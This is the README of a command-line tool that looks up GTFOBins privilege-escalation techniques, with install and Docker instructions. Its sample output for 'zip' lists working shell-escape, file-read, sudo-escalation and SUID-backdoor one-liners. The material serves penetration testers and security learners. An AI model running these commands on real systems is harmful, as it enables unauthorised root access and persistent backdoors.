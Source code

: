 # GTFOBins-CLI

`gtfobins-cli` is a command line interface for https://gtfobins.github.io.

This tool is perfect for those who work most of the time with a terminal and need to check if there is a way to escalate privilege using a certain command. Instead of opening the browser, going to https://gtfobins.github.io and looking for the command, `gtfobins-cli` does the same but from the terminal.

## Running `gtfobins-cli`

```console
$ git clone https://github.com/7Rocky/gtfobins-cli
$ cd gtfobins-cli/
$ chmod +x gtfobins-cli.py
```

Now, you can use either `python3 gtfobins-cli.py` or `./gtfobins-cli.py` to execute the tool.

Additionally, you can rename the script to simply `gtfobins-cli` and move it to a directory in your `PATH` environment variable (i.e `/usr/local/bin`), so that `gtfobins-cli` is available as a command at every working directory.

## Usage of `gtfobins-cli`

As easy as using https://gtfobins.github.io:

```console
$ gtfobins-cli <command>
```

For example:

```console
$ gtfobins-cli.py zip              

zip ==> https://gtfobins.github.io/gtfobins/zip/


Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

TF=$(mktemp -u)
zip $TF /etc/hosts -T -TT 'sh #'
rm $TF


File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

LFILE=file-to-read
TF=$(mktemp -u)
zip $TF $LFILE
unzip -p $TF


Sudo

If the binary is allowed to run as superuser by sudo, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

TF=$(mktemp -u)
sudo zip $TF /etc/hosts -T -TT 'sh #'
sudo rm $TF


Limited SUID

If the binary has the SUID bit set, it may be abused to access the file system, escalate or maintain access with elevated privileges working as a SUID backdoor. If it is used to run commands (e.g., via system()-like invocations) it only works on systems like Debian (<= Stretch) that allow the default sh shell to run with SUID privileges.

sudo install -m =xs $(which zip) .

TF=$(mktemp -u)
./zip $TF /etc/hosts -T -TT 'sh #'
sudo rm $TF 
```

## Using `gtfobins-cli` with Docker

There is an image in Docker Hub called `7rocky/gtfobins-cli` to execute `gtfobins-cli` from a Docker container:

```console
$ docker run --rm -it 7rocky/gtfobins-cli <command>
```

If you want to build and run the image locally:

```console
$ cd gtfobins-cli/
$ docker build -t gtfobins-cli .
$ docker run --rm -it gtfobins-cli <command>
```

Hope it is useful! :smile:

